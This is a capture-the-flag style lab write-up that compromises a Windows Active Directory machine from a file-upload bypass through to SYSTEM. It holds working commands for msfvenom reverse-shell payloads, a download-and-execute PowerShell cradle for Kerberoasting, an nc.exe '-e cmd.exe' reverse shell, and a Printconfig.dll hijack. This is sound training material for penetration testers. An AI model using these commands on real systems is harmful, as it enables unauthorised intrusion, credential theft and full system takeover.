 #Pwned #Windows #AD #Tokens #FileUpload #Updated
```IP
192.168.232.187
```

# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.232.187 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION                                    53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus                            80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-26 10:49:36Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP 80
As soon as I saw the HTTP port opened, I started to do some enumeration to it. Firstly we enumerate the directories with ffuf tool, and take notice at some 301 status results.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026125821.png?raw=true)

The webpage allows us to upload image files when we try to buy a ticket, but it does not allow to upload php files...

However we can bypass the file extension check when uploading images by using the following extensions in a PHP reverse shell file.
`php%20` works but it does not execute.
`.ctp` also works but does not execute.

Maybe we can edit the .htaccess file in order to allow php files to execute, so we overwrite create in our local machine the following file in order to execute the .ctp as php:
```
echo "AddType application/x-httpd-php .ctp" > .htaccess
```

In order to create a stable reverse shell we can upload a PHP file and a .exe file, the former objective being to execute the second as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133705.png?raw=true)

To create a .exe windows tcp reverse shell we can use the following command:
```
msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.187 LPORT=443 -f exe -o rev.exe
```

Then we upload all three files rev.exe, run.ctp and the new .htaccess. Afterwards we execute the run.ctp. It will call rev.exe and give us a revshell in our nc listener:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026134026.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133617.png?raw=true)
As we can see, we have gained access as service account svc_apache, so our next step will be privilege escalation.
# PrivEsc

## Manual
Being a service account, we do not have access to local.txt flag. By enumerating domain users we see MSSQL service account. A possible exploitation could be to ask for a kerberos ticket.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102748.png?raw=true)
In order to do that we would need the SPN. With `Get-SPN.ps1` powershell script we can get the SPN of the MSSQL account:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102834.png?raw=true)
And with the following powershell commands we will obtain the kerberos hash:
```powershell
Add-Type -AssemblyName System.IdentityModel
```
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'  
iex(new-object net.webclient).downloadString('http://192.168.45.201:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```
With `jhon` tool we crack the obtained hash and we get the following password:
```
trustno1
```
Now we can enum shares to check if svc_mssql account has any interesting shares:
```bash
 nxc smb 192.168.232.187 -u 'svc_mssql' -p 'trustno1' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027112559.png?raw=true)

None. We can try to get command execution with svc_mssql. To do so, we will download and execute `invoke-runas` script. First we will send a whoami command to check it works:
```powershell
.\Invoke-RunasCs -Username svc_mssql -Password "trustno1" -Command "whoami"
```
It works! So we can upload nc.exe and get a reverse shell as shown below:
```powershell
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.201 45 -e cmd.exe"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216101223.png?raw=true)

Running `whoami /priv` discloses a SeManageVolumePrivilege  token that we can use for PE. There is an exploit already compiled for this purpose:

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

Running this exploit gives us permissions on 918 entries. Among them we have the following directory:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104138.png?raw=true)
Which previously only administrators had full control:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104229.png?raw=true)
We can hijack one of the systems dll and trigger it in order to get a reverse shell. We will do this with Printconfig.dll. First we will create with msfvenom a malicious.dll containing a reverse shell:
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4444 -f dll -o Printconfig.dll
```
We transfer the file to our target machine and copy it to the following directory:
```powershell
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
And then this dll is triggered by the following commands:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
```
```powershell
$object = [Activator]::CreateInstance($type)
```
On execution we will get inmediately NT Authority\System access:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105447.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105437.png?raw=true)

Therefore, we can retrieve proof.txt flag
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105535.png?raw=true)

Pwned!

